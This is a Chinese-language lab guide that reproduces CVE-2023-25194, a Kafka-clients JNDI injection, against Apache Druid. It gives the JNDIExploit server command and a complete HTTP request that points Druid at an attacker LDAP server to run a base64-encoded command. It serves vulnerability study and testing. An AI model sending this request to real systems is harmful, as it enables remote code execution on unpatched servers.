




Apache Kafka Clients LDAP注入漏洞 CVE-2023-25194¶
漏洞描述¶
Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。
在版本3.4.0以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性sasl.jaas.config的值为com.sun.security.auth.module.JndiLoginModule，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。
由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。
这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。
参考链接：
- https://nvd.nist.gov/vuln/detail/CVE-2023-25194
- https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml
- https://hackerone.com/reports/1529790
环境搭建¶
Vulhub执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：
docker-compose up -d
服务启动后，访问http://your-ip:8888即可查看到Apache Druid主页。

漏洞复现¶
首先，使用JNDIExploit启动一个恶意的JNDI服务器：
>java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.174.1 -u

这个工具给出了很多利用方法，我们使用ldap://your-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]，将命令id > /tmp/success编码后放在URL中。
将这个恶意LDAP URL放在下面这个请求中，并发送：
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792
{
"type":"kafka",
"spec":{
"type":"kafka",
"ioConfig":{
"type":"kafka",
"consumerProperties":{
"bootstrap.servers":"127.0.0.1:6666",
"sasl.mechanism":"SCRAM-SHA-256",
"security.protocol":"SASL_SSL",
"sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
},
"topic":"test",
"useEarliestOffset":true,
"inputFormat":{
"type":"regex",
"pattern":"([\\s\\S]*)",
"listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
"columns":[
"raw"
]
}
},
"dataSchema":{
"dataSource":"sample",
"timestampSpec":{
"column":"!!!_no_such_column_!!!",
"missingValue":"1970-01-01T00:00:00Z"
},
"dimensionsSpec":{
},
"granularitySpec":{
"rollup":false
}
},
"tuningConfig":{
"type":"kafka"
}
},
"samplerConfig":{
"numRows":500,
"timeoutMs":15000
}
}

进入容器后可见id > /tmp/success成功执行。
